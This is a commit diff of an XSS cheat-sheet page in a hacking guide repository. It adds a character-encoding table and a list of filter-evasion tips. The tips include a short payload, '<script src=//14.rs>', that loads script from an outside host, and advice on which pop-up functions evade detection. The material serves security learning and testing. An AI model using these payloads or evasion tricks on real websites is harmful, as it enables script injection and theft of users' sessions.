

Before and after one commit to mikiwilo10/hacking_common_guide, a Markdown page: WEB/02-Cross-site Scripting(XSS)/02-Cross-site Scripting (XSS).md, the part around the change. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Encoding xss

```diff
--- a/WEB/02-Cross-site Scripting(XSS)/02-Cross-site Scripting (XSS).md
+++ b/WEB/02-Cross-site Scripting(XSS)/02-Cross-site Scripting (XSS).md
@@ -13,7 +13,59 @@ https://github.com/s0md3v/AwesomeXSS
 
 
 
+https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
 
+
+### Awesome Encoding
+
+|HTML|Char|Numeric|Description|Hex|CSS (ISO)|JS (Octal)|URL|
+|----|----|-------|-----------|----|--------|----------|---|
+|`&quot;`|"|`&#34;`|quotation mark|u+0022|\0022|\42|%22|
+|`&num;`|#|`&#35;`|number sign|u+0023|\0023|\43|%23|
+|`&dollar;`|$|`&#36;`|dollar sign|u+0024|\0024|\44|%24|
+|`&percnt;`|%|`&#37;`|percent sign|u+0025|\0025|\45|%25|
+|`&amp;`|&|`&#38;`|ampersand|u+0026|\0026|\46|%26|
+|`&apos;`|'|`&#39;`|apostrophe|u+0027|\0027|\47|%27|
+|`&lpar;`|(|`&#40;`|left parenthesis|u+0028|\0028|\50|%28|
+|`&rpar;`|)|`&#41;`|right parenthesis|u+0029|\0029|\51|%29|
+|`&ast;`|*|`&#42;`|asterisk|u+002A|\002a|\52|%2A|
+|`&plus;`|+|`&#43;`|plus sign|u+002B|\002b|\53|%2B|
+|`&comma;`|,|`&#44;`|comma|u+002C|\002c|\54|%2C|
+|`&minus;`|-|`&#45;`|hyphen-minus|u+002D|\002d|\55|%2D|
+|`&period;`|.|`&#46;`|full stop; period|u+002E|\002e|\56|%2E|
+|`&sol;`|/|`&#47;`|solidus; slash|u+002F|\002f|\57|%2F|
+|`&colon;`|:|`&#58;`|colon|u+003A|\003a|\72|%3A|
+|`&semi;`|;|`&#59;`|semicolon|u+003B|\003b|\73|%3B|
+|`&lt;`|<|`&#60;`|less-than|u+003C|\003c|\74|%3C|
+|`&equals;`|=|`&#61;`|equals|u+003D|\003d|\75|%3D|
+|`&gt;`|>|`&#62;`|greater-than sign|u+003E|\003e|\76|%3E|
+|`&quest;`|?|`&#63;`|question mark|u+003F|\003f|\77|%3F|
+|`&commat;`|@|`&#64;`|at sign; commercial at|u+0040|\0040|\100|%40|
+|`&lsqb;`|\[|`&#91;`|left square bracket|u+005B|\005b|\133|%5B|
+|`&bsol;`|&bsol;|`&#92;`|backslash|u+005C|\005c|\134|%5C|
+|`&rsqb;`|]|`&#93;`|right square bracket|u+005D|\005d|\135|%5D|
+|`&Hat;`|^|`&#94;`|circumflex accent|u+005E|\005e|\136|%5E|
+|`&lowbar;`|_|`&#95;`|low line|u+005F|\005f|\137|%5F|
+|`&grave;`|\`|`&#96;`|grave accent|u+0060|\0060|\u0060|%60|
+|`&lcub;`|{|`&#123;`|left curly bracket|u+007b|\007b|\173|%7b|
+|`&verbar;`|\||`&#124;`|vertical bar|u+007c|\007c|\174|%7c|
+|`&rcub;`|}|`&#125;`|right curly bracket|u+007d|\007d|\175|%7d|
+
+
+
+### Awesome Tips & Tricks
+- `http(s)://` can be shortened to `//` or `/\\` or `\\`.
+- `document.cookie` can be shortened to `cookie`. It applies to other DOM objects as well.
+- alert and other pop-up functions don't need a value, so stop doing `alert('XSS')` and start doing `alert()`
+- You can use `//` to close a tag instead of `>`.
+- I have found that `confirm` is the least detected pop-up function so stop using `alert`.
+- Quotes around attribute value aren't necessary as long as it doesn't contain spaces. You can use `<script src=//14.rs>` instead of `<script src="//14.rs">`
+- The shortest HTML context XSS payload is `<script src=//14.rs>` (19 chars)
+
+
+
+
+</br>
 
 
 # XSS reflejado en HTML sin codificación
```
